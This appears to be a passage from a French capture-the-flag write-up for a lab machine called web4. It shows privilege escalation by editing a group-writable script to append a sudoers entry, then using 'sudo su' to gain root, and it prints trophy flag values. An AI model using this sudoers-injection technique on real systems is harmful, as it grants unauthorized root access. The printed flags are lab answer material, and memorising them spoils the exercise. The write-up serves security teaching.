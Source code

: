 ```
luiggi@web4:~$ ls -la /usr/local/bin/script.sh
-rwxrwx--- 1 luiggi www-data 154 Apr 27 16:54 /usr/local/bin/script.sh
```

et si on ouvre le fichier, on voit: 

```
luiggi@web4:~$ cat /usr/local/bin/script.sh
echo "Service Apache Correctly started/stopped as instructed in apache /etc/systemd configuration file" >> /home/luiggi/apache_service.log
```

Alors, on peut juste le modifier pour ajouter l'user luiggi comme un sudoer, en ajoutant la ligne suivant au début du fichier _/usr/local/bin/script.sh_: 

`echo "luiggi ALL=(ALL:ALL) ALL" >> /etc/sudoers`

maintenant lorsqu'on exécute la commande

`sudo -u root /bin/systemctl restart apache2`

on peut maintenant devenir root (yay!) en faisant

`sudo su`

Et on trouve le **trophee**

```
luiggi@web4:~$ sudo su
root@web4:/home/luiggi# cd
root@web4:~# ls
trophee.trp
root@web4:~# cat trophee.trp 
me2Pooxeeneezooth7iech3bohFei1
root@web4:~# 
```

## **Trophee 10 - Bonus trophee machine web4**

**b539c7561d36b90e8c0f5da217da8d52**

On peut trouver encore une autre trophee pour l'user **lorenzo**. Lorsqu'on accède le fichier `/home` on peut trouver les autres utilisateurs de la machine **web4**.

```
root@web4:~# cd /home/
root@web4:/home# ls
lorenzo  luiggi
```

On voit ici qu'on a encore lorenzo comme utilisateur qui reste inexploré. Lorsqu'on accède le dossier user, on voit le **trophee**

```
root@web4:/home# cd lorenzo/
root@web4:/home/lorenzo# ls
trophee.trp
root@web4:/home/lorenzo# cat trophee.trp 
b539c7561d36b90e8c0f5da217da8d52
```
